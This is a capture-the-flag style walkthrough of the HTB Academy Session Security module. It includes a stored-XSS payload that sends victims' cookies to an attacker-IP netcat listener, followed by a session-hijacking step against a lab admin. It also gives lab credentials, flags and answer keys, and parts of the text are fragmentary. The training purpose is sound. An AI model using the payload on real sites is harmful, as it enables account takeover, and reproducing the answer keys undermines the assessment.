Welcome to **Part 31** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Session Security** (Tier I • Easy • General). We break down the underlying mechanics of web session management, cookie attributes (Secure, HttpOnly, SameSite), session fixation, session hijacking, predictable tokens, and token lifecycle management, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-30-web-attacks/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 30: Web Attacks (HTTP Verb Tampering & IDOR)</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 31 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-32-cracking-passwords-with-hashcat/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 32: Cracking Passwords with Hashcat</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Session Security` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/153](https://academy.hackthebox.com/module/153) |
| **Curriculum Tier & Difficulty** | `Tier I` • `Easy` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 31 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **Session Lifecycle Management**: Analyzes session creation, maintenance, expiration timeouts, and proper server-side invalidation.
* **Cookie Security Attributes**: Evaluates the defensive impact of `HttpOnly` (XSS protection), `Secure` (TLS-only), and `SameSite` (CSRF defense).
* **Session Fixation Attacks**: Exploits applications that preserve pre-authentication session identifiers after successful user login.
* **Session Token Analysis**: Analyzes entropy and randomness in session tokens using Burp Suite Sequencer to identify predictable generation algorithms.
* **Session Hijacking Vectors**: Captures session tokens through network sniffing, XSS exfiltration, and application log exposure.

## Executive Summary & Assessment Scope

Web applications use session management mechanisms to maintain authenticated state across stateless HTTP transactions. Flaws in session token generation, transmission, or invalidation allow attackers to hijack legitimate user sessions and assume their identities.

In this module, we examine web session security architectures. We audit cookie security attributes, exploit session fixation flaws, analyze session entropy, hijack active user sessions, and extract all module flags.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Session Security

> **Lab Question (Page 1)**: What kind of session identifier does the application employ? Answer options (without quotation marks): "URL parameter", "URL argument", "body argument", "cookie" or "proprietary solution"
>
> **Flag / Answer**: `cookie`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will set the initial configuration with the vhost: 'xss.htb.net'.
Then – we access the website:
http://xss.htb.net


*_Figure 1.1 — Lab execution and output verification (Page 1)_*


We log in with the provided credentials: 'heavycat106:rocknrol':

And we are logged in.

Opening the Devleoper tools  →  storage (in firefox) (Ctrl+Shirt+C):

We can see our cookir value, under the parameter 'auth-session'.


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


*_Figure 2.2 — Lab execution and output verification (Page 2)_*


*_Figure 2.3 — Lab execution and output verification (Page 2)_*


### window, to log in without the use of the credentials

> **Lab Question (Page 3)**: If the HttpOnly flag was set, would the application still be vulnerable to session fixation? Answer Format: Yes or No
>
> **Flag / Answer**: `Yes`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

HttpOnly flag is designed to prevent client side scripts access to the
cookie. It will not affect session Fixation attack.

Obtaining Session Identifiers without User Interaction:
Question: If xss.htb.net was an intranet application, would an attacker still be
able to capture cookies via sniffing traffic if he/she got access to the company's
VPN? Suppose that any user connected to the VPN can interact with
xss.htb.net. Answer format: Yes or No
Answer: Yes
Method: assuming an internal attacker can sniff traffic from 'xss.htb.net' , and
the traffic is un-encrypted, then the attacker would be able to capture cookies
from the application.


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


### Cross-Site Scripting (XSS)

> **Lab Question (Page 4)**: If xss.htb.net was utilizing SSL encryption, would an attacker still be able to capture cookies through XSS? Answer format: Yes or No
>
> **Flag / Answer**: `Yes`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

SSL encryption prevents sniffing from the network, not from XXS

Cross-Site Request Forgery (CSRF or XSRF):
Question: If the update-profile request was GET-based and no anti-CSRF
protections existed, would you still be able to update Ela Stienen's profile
through CSRF? Answer format: Yes or No
Answer: Yes
Method:

Cross-Site Request Forgery (GET-based):
Question: If csrf.htb.net was utilizing SSL encryption, would an attacker still be
able to alter Julie Rogers' profile through CSRF? Answer format: Yes or No
Answer: Yes
Method:

Cross-Site Request Forgery (POST-based):
Question: If csrf.htb.net was utilizing secure cookies, would an attacker still be
able to leak Julie Roger's CSRF token? Answer format: Yes or No
Answer: Yes
Method:


### XSS & CSRF Chaining

> **Lab Question (Page 5)**: Same Origin Policy cannot prevent an attacker from changing the visibility of @goldenpeacock467's profile. Answer Format: Yes or No
>
> **Flag / Answer**: `Yes`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

```bash
Exploiting Weak CSRF Tokens:
```
Question: Our malicious page included a user-triggered event handler (onclick).
To evade what kind of security measure did we do that? Answer options
(without quotation marks): "Same-Origin Policy", "Popup Blockers", "XSS
Filters"
Answer: Popup Blockers
Method:

Open Redirect:
Question: If the request to complete.html was GET-based, would you still be
able to obtain the token via exploiting the open redirect vulnerability? Answer
format: Yes or No
Answer: Yes
Method:


### Capstone: Skills Assessment

> **Lab Question (Page 6)**: Read the flag residing in the admin's public profile. Answer format: [string]
>
> **Flag / Answer**: `[YOU_ARE_A_SESSION_WARRIOR]`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will set the initial configuration with the vhost: 'xss.htb.net'.
Then – we access the website:
http://minilab.htb.net

now, we get to a login page:

We use the provded credentials: 'heavycat106:rocknrol', and login:


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


### testing – we will alert 'hello'

Checking the input fields, the 'Country' input field is suspectable to XXS, for
testing – we will alert 'hello':
<script>alert("hello")</script>


We save, and enter 'Julie Rogers' profile from incognito browser to confirm:
http://minilab.htb.net/profile?email=julie.rogers@example.co
m


Now that the XXS vulnerability on the 'Country' input field is confirmed – we
can use it to obtain the visitor auth-session.


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


Before we do that – first we initiate netcat listener on the arbitrary port 4444:
```bash
nc -lnvp 4444
```


And on 'julie.rogers' profile on Country's field – we enter the payload:
<style>@keyframes x{}</style><video style="animation-name:x"
onanimationend="window.location = 'http://<attacker-
IP>:4444/index.php?c=' + document.cookie;"></video>
*where '<attacker-IP> is of course our own IP . *


Now, we save – and enter the profile on incognito browser again:
*reminder –
http://minilab.htb.net/profile?email=julie.rogers@example.co
m
*


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


### While on the browser we get seemingly empty country

While on the browser we get seemingly empty country:


On the netcat listner:

We get the auth session of the incognito browser, confirming the XXS payload
works, and can be used to obtain the auth session of anyone visiting.

But the auth-session of the incognito browser doesn't helps us – we need the
admin's auth-session.


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


### For we have the following endpoint

For we have the following endpoint:
http://minilab.htb.net/submit-solution
which was provided for us, and will emulate admin's entry.

Attempting to curl it:

We need a URL.
So, having the netcat listener ready – we will access the endpoint with
julie.rogers profile we access before – as the parameter's value:
```bash
curl http://minilab.htb.net/submit-
```
solution?url=http://minilab.htb.net/profile?email=julie.roge
rs@example.com


Execution might take few seconds – but after we access the endpoint with
julie.rogers profile – we can adminVisited – true, and success – true.

But more importantly – on the netcat listener:

We get the admin's auth-session.

On the incognito browser – lets put it as our auth-session, using developer
tools  →  Storage:


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


*_Figure 10.3 — Lab execution and output verification (Page 10)_*


### And refresh

And refresh:

We are now the admin.

Lets change his visibility to public, then access his profile with his listed email:
'superadmin@htb.net'
http://minilab.htb.net/profile?email=superadmin@htb.net


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


### the admin user page

> **Lab Question (Page 12)**: Go through the PCAP file residing in the admin's public profile and identify the flag. Answer format: FLAG{string}
>
> **Flag / Answer**: `FLAG{SUCCESS_YOU_PWN3D_US_H0PE_YOU_ENJ0YED}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from the previous question – we download 'Flag2' from
the admin user page:

It will be downloaded as 'download-pcap.pcap'.


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


We will open the file with wireshark, and as we are told the format is
'FLAG{STRING}' – we will look for a the string 'FLAG' using the wireshark filter:
frame contains "FLAG"


We can see in that first packet matching the filter – in the HTTP 'token'
parameter – the flag is being used as the parameter's value.

